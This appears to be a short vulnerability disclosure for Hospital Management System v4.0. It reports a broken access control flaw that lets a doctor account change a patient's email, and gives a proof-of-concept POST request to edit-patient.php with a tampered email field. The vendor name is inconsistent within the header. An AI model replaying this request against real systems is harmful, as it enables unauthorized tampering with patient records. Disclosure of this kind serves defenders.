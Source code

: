 # Exploit Title: Hospital Management System v4.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attacker doctor to update the email of patient that cannot modify in UI.

## ---------------------------------POC-----------------------------
```
POST /hospital/hms/doctor/edit-patient.php?editid=2 HTTP/1.1
...

patname=user1p&patcontact=111112&patemail=user1p%40test.com(CHANGE HERE)&gender=Male&pataddress=bbb&patage=20&medhis=0&submit=
```